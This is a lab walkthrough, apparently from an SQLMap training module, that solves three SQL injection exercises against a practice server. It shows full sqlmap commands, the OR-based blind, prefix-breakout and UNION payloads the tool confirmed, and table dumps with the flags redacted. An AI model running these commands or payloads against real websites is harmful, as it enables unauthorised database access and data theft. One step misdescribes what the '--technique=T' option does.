






## Exercises

### Question 1 — What's the contents of table flag5? (Case #5)

Landed on Case #5, titled "Case5 - OR SQLi," which said it detects and exploits an (OR) SQLi vulnerability in the GET parameter `id`.



Clicked through to the page showing the `id=1` parameter, then used the browser dev tools Network panel's Copy as cURL feature to grab the request.



The hint pointed to `-T flag5` and `--no-cast`, so the first attempt used those directly:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://154.57.164.70:43778/case5.php?id=1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://154.57.164.70:43778/case5.php' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
--batch --dump -T flag5 --no-cast --level=5 --risk=3
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.10.9#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:56:00 /2026-10-22/

[13:56:00] [INFO] testing connection to the target URL
[13:56:00] [INFO] checking if the target is protected by some kind of WAF/IPS
[13:56:00] [INFO] testing if the target URL content is stable
[13:56:01] [INFO] target URL content is stable
[13:56:01] [INFO] testing if GET parameter 'id' is dynamic
[13:56:01] [INFO] GET parameter 'id' appears to be dynamic
[13:56:01] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be SQL injectable
[13:56:01] [INFO] testing for SQL injection on GET parameter 'id'
[13:56:01] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:56:05] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[13:56:05] [INFO] GET parameter 'id' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable (with --string="18")
[13:56:06] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
—SNIP—
[13:56:08] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP)'
[13:56:18] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 OR time-based blind (query SLEEP)' injectable 
[13:56:18] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
—SNIP—
[13:56:33] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[13:56:33] [INFO] checking if the injection point on GET parameter 'id' is a false positive
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 613 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: id=-5486 OR 5759=5759

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (query SLEEP)
    Payload: id=1 OR (SELECT 3424 FROM (SELECT(!SLEEP(5)))qojN)
---
[13:56:34] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[13:56:34] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[13:56:34] [INFO] fetching current database
[13:56:34] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[13:56:34] [INFO] retrieved: testdb
[13:56:35] [INFO] fetching columns for table 'flag5' in database 'testdb'
[13:56:35] [INFO] retrieved: 2
[13:56:36] [INFO] retrieved: id
[13:56:36] [INFO] retrieved: 0
[13:56:37] [INFO] retrieved: content
[13:56:38] [INFO] retrieved: 0
[13:56:39] [INFO] fetching entries for table 'flag5' in database 'testdb'
[13:56:39] [INFO] fetching number of entries for table 'flag5' in database 'testdb'
[13:56:39] [INFO] retrieved: 1
[13:56:39] [INFO] retrieved: —REDACTED—
[13:56:47] [WARNING] the target's responses are inconsistent for known-true/known-false probes (reads-everything-true, WAF, or a flaky/degraded channel); extracted data may be unreliable. Consider raising '--time-sec', lowering '--threads', or retrying
[13:56:47] [INFO] retrieved: 1
Database: testdb
Table: flag5
[1 entry]
+----+------------+
| id | content    |
+----+------------+
| 1  | —REDACTED— |
+----+------------+
```

**Breakdown:**

- `sqlmap` invokes the tool
- `'http://154.57.164.70:43778/case5.php?id=1'` is the target URL
- `-H '...'` flags replicate the headers the browser originally sent
- `--batch` skips every interactive prompt by automatically choosing the default option
- `--dump` dumps the contents of any table SQLMap enumerates, once an injection point is confirmed
- `-T flag5` narrows the dump to just the `flag5` table, rather than dumping every table in the database
- `--no-cast` disables SQLMap's internal value casting during retrieval, so extracted values come back exactly as read rather than passed through a type-cast step first
- `--level=5 --risk=3` raises both the vector/boundary set and the risk tier to their maximum, enabling OR-based payloads

SQLMap found `id` injectable via OR-based boolean-blind and OR-based time-based blind, but flagged the extraction itself as unreliable (`the target's responses are inconsistent for known-true/known-false probes`), and the result came back corrupted: `—REDACTED—`, with an `O` where a digit should be.

#### Rerunning

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://154.57.164.70:43778/case5.php?id=1*' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://154.57.164.70:43778/case5.php' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
--batch --dump -T flag5 --no-cast --level=5 --risk=3 --flush-session 
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.10.9#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:57:17 /2026-10-22/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[13:57:17] [INFO] flushing session file
—SNIP—
[13:57:51] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[13:57:51] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[13:57:51] [INFO] fetching current database
[13:57:52] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[13:57:51] [INFO] retrieved: testdb
[13:57:53] [INFO] fetching columns for table 'flag5' in database 'testdb'
[13:57:53] [INFO] retrieved: 2
[13:57:53] [INFO] retrieved: id 
[13:57:54] [INFO] retrieved: 
[13:57:54] [INFO] retrieved: 
[13:57:54] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[13:57:55] [INFO] retrieved: content
[13:57:56] [INFO] retrieved: 0
[13:57:57] [INFO] fetching entries for table 'flag5' in database 'testdb'
[13:57:57] [INFO] fetching number of entries for table 'flag5' in database 'testdb'
[13:57:57] [INFO] retrieved: 1
[13:57:57] [INFO] retrieved: 
[13:57:58] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                                                    

[13:57:59] [INFO] retrieved: —REDACTED—
[13:58:07] [WARNING] the target's responses are inconsistent for known-true/known-false probes (reads-everything-true, WAF, or a flaky/degraded channel); extracted data may be unreliable. Consider raising '--time-sec', lowering '--threads', or retrying
Database: testdb
Table: flag5
[1 entry]
+------------+--------+
| content    | id\x02 |
+------------+--------+
| —REDACTED— |        |
+------------+--------+
```

The result was still corrupted in a different way — `—REDACTED—`, with a `g` where a `h` should be and a missing character before the final `7`. The column name also came back malformed as `id\x02`. Tried manually guessing a fix for the gap (replacing the space with `1`, giving `_17`), but that answer was rejected too.

#### Switching to Time-Based Only

Reasoned that both corrupted attempts had SQLMap mixing OR-based boolean-blind and OR-based time-based blind during extraction, and that inconsistent timing over the network was the likely cause (SQLMap's own warning about not stressing the connection during time-based payloads pointed the same way). Tried forcing just the boolean-based technique first by adding `--technique=T` — intending it as a quick win, but actually meaning to isolate a single technique for consistency, which instead forced time-based blind alone and ran much slower per-character than the mixed run:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://154.57.164.70:43778/case5.php?id=1*' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://154.57.164.70:43778/case5.php' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
--batch --dump -T flag5 --no-cast --level=5 --risk=3 --flush-session --technique=T 
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.10.9#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:01:47 /2026-10-22/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[14:01:47] [INFO] flushing session file
[14:01:47] [INFO] testing connection to the target URL
[14:01:47] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:01:47] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be SQL injectable
[14:01:47] [INFO] testing for SQL injection on URI parameter '#1*'
[14:01:47] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:01:47] [WARNING] time-based comparison requires larger statistical model, please wait............................ (done)                                                                                                               
[14:01:50] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP)'
[14:02:00] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0.12 OR time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[14:02:00] [INFO] checking if the injection point on URI parameter '#1*' is a false positive
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 122 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (query SLEEP)
    Payload: http://154.57.164.70:43778/case5.php?id=1 OR (SELECT 7302 FROM (SELECT(!SLEEP(5)))KRdb)
---
[14:03:02] [INFO] the back-end DBMS is MySQL
[14:03:02] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[14:03:12] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[14:03:12] [INFO] fetching current database
[14:03:12] [INFO] retrieved: 
[14:03:17] [INFO] adjusting time delay to 1 second due to good response times
testdb
[14:03:37] [INFO] fetching columns for table 'flag5' in database 'testdb'
[14:03:37] [INFO] retrieved: 2
[14:03:39] [INFO] retrieved: id
[14:03:46] [INFO] retrieved: 0
[14:03:51] [INFO] retrieved: content
[14:04:18] [INFO] retrieved: 0
[14:04:24] [INFO] fetching entries for table 'flag5' in database 'testdb'
[14:04:24] [INFO] fetching number of entries for table 'flag5' in database 'testdb'
[14:04:24] [INFO] retrieved: 1
[14:04:26] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)                                                                                                    
—REDACTED—
[14:06:36] [INFO] retrieved: 1
Database: testdb
Table: flag5
[1 entry]
+----+------------+
| id | content    |
+----+------------+
| 1  | —REDACTED— |
+----+------------+

[14:06:39] [INFO] table 'testdb.flag5' dumped to CSV file '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.70/dump/testdb/flag5.csv'
[14:06:39] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.70'

[*] ending @ 14:06:39 /2026-10-22/
```

**Breakdown of the new flag:**

- `--technique=T` restricts SQLMap to the time-based blind technique only, removing boolean-based blind from the mix entirely

Isolating a single technique took noticeably longer per character (SQLMap even offered to auto-tune the delay with `--time-sec`), but it returned a clean, uncorrupted result this time: `—REDACTED—`.

**Answer:** `—REDACTED—`

### Question 2 — What's the contents of table flag6? (Case #6)

Case #6 was titled "Case6 - Non-standard boundaries" and said it detects and exploits an SQLi vulnerability in the GET parameter `col`, which has non-standard boundaries.



Clicked through to `case6.php?col=id`, then used Copy as cURL on the request.



The question's hint pointed directly at the prefix `` `) ``, so that was supplied via `--prefix`:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://154.57.164.70:43778/case6.php?col=id' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://154.57.164.70:43778/case6.php' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
--batch --dump -T flag6 --prefix='`)' --flush-session 
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.10.9#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:15:54 /2026-10-22/

[14:15:54] [INFO] flushing session file
[14:15:54] [INFO] testing connection to the target URL
[14:15:54] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:15:54] [INFO] testing if the target URL content is stable
[14:15:54] [INFO] target URL content is stable
[14:15:54] [INFO] testing if GET parameter 'col' is dynamic
[14:15:55] [INFO] GET parameter 'col' appears to be dynamic
[14:15:55] [INFO] heuristic (basic) test shows that GET parameter 'col' might be SQL injectable (possible DBMS: 'MySQL')
[14:15:55] [INFO] heuristic (XSS) test shows that GET parameter 'col' might be vulnerable to cross-site scripting (XSS) attacks
[14:15:55] [INFO] testing for SQL injection on GET parameter 'col'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[14:15:55] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:15:55] [INFO] GET parameter 'col' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="1958")
—SNIP—
[14:15:56] [INFO] testing 'MySQL > 5.0.12 AND time-based blind (heavy query)'
[14:16:33] [INFO] GET parameter 'col' appears to be 'MySQL > 5.0.12 AND time-based blind (heavy query)' injectable 
[14:16:33] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:16:33] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:16:33] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[14:16:33] [INFO] target URL appears to have 6 columns in query
[14:16:33] [INFO] GET parameter 'col' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'col' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 60 HTTP(s) requests:
---
Parameter: col (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: col=id`) AND 4513=4513-- cmXI

    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: col=id`) AND 2325=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1)-- capv

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: col=id`) UNION ALL SELECT CONCAT(0x7176627a71,0x6b734a694b507342564347766d556b61784d5a67676f684d42465571734751717856634f79445643,0x7178707071),NULL,NULL,NULL,NULL,NULL-- -
---
[14:16:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL > 5.0.12 (MariaDB fork)
[14:16:33] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[14:16:33] [INFO] fetching current database
[14:16:34] [INFO] fetching columns for table 'flag6' in database 'testdb'
[14:16:34] [INFO] fetching entries for table 'flag6' in database 'testdb'
Database: testdb
Table: flag6
[1 entry]
+----+------------+
| id | content    |
+----+------------+
| 1  | —REDACTED— |
+----+------------+

[14:16:34] [INFO] table 'testdb.flag6' dumped to CSV file '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.70/dump/testdb/flag6.csv'
[14:16:34] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.70'

[*] ending @ 14:16:34 /2026-10-22/
```

**Breakdown:**

- `sqlmap` invokes the tool
- `'http://154.57.164.70:43778/case6.php?col=id'` is the target URL
- `-H '...'` flags replicate the headers the browser originally sent
- `--batch` skips every interactive prompt by automatically choosing the default option
- `--dump` dumps the contents of any table SQLMap enumerates
- `-T flag6` narrows the dump to the `flag6` table
- `--prefix='`)'` sets the literal text `` `) `` as the static prefix placed before every vector SQLMap tries, matching the non-standard boundary the hint pointed to
- `--flush-session` discards any previously stored session data for this target, forcing a fresh run

With the correct prefix supplied, the confirmed payloads all show ``id`)`` immediately before the injected SQL, matching the prefix exactly. The run found the parameter injectable via boolean-based blind, a MySQL "heavy query" time-based technique, and UNION query, then enumerated `testdb` and dumped `flag6` cleanly on the first attempt.

**Answer:** `—REDACTED—`

### Question 3 — What's the contents of table flag7? (Case #7)

Case #7 was titled "Case7 - UNION SQLi with adjustments" and said it detects and exploits an SQLi vulnerability in the GET parameter `id`, specifically by usage of the UNION query-based technique.



Clicked through to `case7.php?id=1` and used Copy as cURL on the request.



The question's hint suggested counting the number of columns in the page output and supplying that count to SQLMap. The visible output table had 5 columns (id, name, birthday, occupation, phone), so `--union-cols=5` was supplied directly alongside `--technique=U` to force UNION-only testing:

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://154.57.164.70:43778/case7.php?id=1*' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://154.57.164.70:43778/case7.php' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
--batch --dump -T flag7 --technique=U --union-cols=5 --level=5 --risk=3 --flush-session  
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.10.9#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:21:21 /2026-10-22/

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] Y
[14:21:21] [INFO] flushing session file
[14:21:21] [INFO] testing connection to the target URL
[14:21:21] [INFO] checking if the target is protected by some kind of WAF/IPS
[14:21:21] [INFO] testing if the target URL content is stable
[14:21:22] [INFO] target URL content is stable
[14:21:22] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be SQL injectable
[14:21:22] [INFO] testing for SQL injection on URI parameter '#1*'
[14:21:22] [INFO] testing 'Generic UNION query (NULL) - 5 to 5 columns (custom)'
[14:21:22] [WARNING] applying generic concatenation (CONCAT)
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[14:21:23] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[14:21:28] [WARNING] reflective value(s) found and filtering out
[14:21:28] [INFO] URI parameter '#1*' is 'Generic UNION query (NULL) - 5 to 5 columns (custom)' injectable
[14:21:28] [INFO] checking if the injection point on URI parameter '#1*' is a false positive
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 194 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns (custom)
    Payload: http://154.57.164.70:43778/case7.php?id=1 UNION ALL SELECT CONCAT(CONCAT('qvppq','CneKQuDmtPoqGrUzPalICoxZoCsxrCxtzrpYGbWc'),'qvbzq'),NULL,NULL,NULL,NULL-- yBVt
---
[14:21:29] [INFO] testing MySQL
[14:21:29] [INFO] confirming MySQL
[14:21:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[14:21:29] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[14:21:29] [INFO] fetching current database
[14:21:30] [INFO] fetching columns for table 'flag7' in database 'testdb'
[14:21:30] [INFO] fetching entries for table 'flag7' in database 'testdb'
Database: testdb
Table: flag7
[1 entry]
+----+------------+
| id | content    |
+----+------------+
| 1  | —REDACTED— |
+----+------------+

[14:21:30] [INFO] table 'testdb.flag7' dumped to CSV file '/home/—REDACTED—/.local/share/sqlmap/output/154.57.164.70/dump/testdb/flag7.csv'
